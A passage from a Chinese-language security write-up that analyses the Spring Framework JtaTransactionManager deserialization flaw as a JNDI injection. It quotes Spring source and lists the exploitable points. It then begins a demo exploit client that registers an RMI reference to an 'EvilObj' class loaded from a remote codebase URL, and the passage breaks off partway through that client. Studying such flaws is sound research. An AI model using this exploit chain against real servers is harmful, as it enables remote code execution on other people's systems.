 ```

        // Autodetect UserTransaction object that implements TransactionManager,
        // and check fallback JNDI locations else.
        if (this.transactionManager == null &amp;&amp; this.autodetectTransactionManager) `{`
            this.transactionManager = findTransactionManager(this.userTransaction);
        `}`

        // If only JTA TransactionManager specified, create UserTransaction handle for it.
        if (this.userTransaction == null &amp;&amp; this.transactionManager != null) `{`
            this.userTransaction = buildUserTransaction(this.transactionManager);
        `}`
    `}`
```

注释中明确提到支持通过配置好的transaction名称用JNDI的方式进行查找，而`this.transactionManagerName`是可控的，可以通过`setTransactionManagerName()`方法来赋值，不妨跟进`lookupUserTransaction`:

[![](https://p2.ssl.qhimg.com/t017385b472123c6dde.png)](https://p2.ssl.qhimg.com/t017385b472123c6dde.png)

最终会调用JndiTemplate的lookup方法，如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d04660a3371ec7ff.png)

因此这又回到了JNDI注入的问题上，之所以称之为反序列化漏洞，可能是因为利用入口点在`readObject()`方法上，但是思路都是JNDI注入的思路

对于该漏洞，我们所利用的也是三个地方:
- userTransactionName，可以指定为攻击者自己注册的RMI服务。
- codebase url，远程调用类的路径（攻击者可控）
- JtaTransactionManager类中的readObject方法在反序列化事触发了JNDI的RCE
### <a class="reference-link" name="Spring%20Framework%20Demo%E6%BC%94%E7%A4%BA"></a>Spring Framework Demo演示

参考Github上已有的演示demo: [https://github.com/zerothoughts/spring-jndi](https://)

**客户端**<br>
这里`Clinet`客户端的编写思路和之前差不多:

```
package SpringVuln;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.springframework.transaction.jta.JtaTransactionManager;

import javax.naming.Reference;
import java.io.ObjectOutputStream;
import java.net.Socket;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ClientExploit `{`
    /***
     * 启动RMI服务
     *
     * @throws Exception
     */
    public static void lanuchRMIregister() throws Exception`{`
        System.out.println("Creating RMI register...");
        Registry registry = LocateRegistry.createRegistry(1099);
        // 最终下载恶意类的地址为http://127.0.0.1:9999/SpringExploitObj.class
        Reference refObj = new Reference("EvilObj","EvilObj","http://127.0.0.1:9999/");
        //使用ReferenceWrapper包装，其继承了UnicastRemoteObject因此实现了Remote接口
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(refObj);
        registry.bind("refObj",referenceWrapper);
```
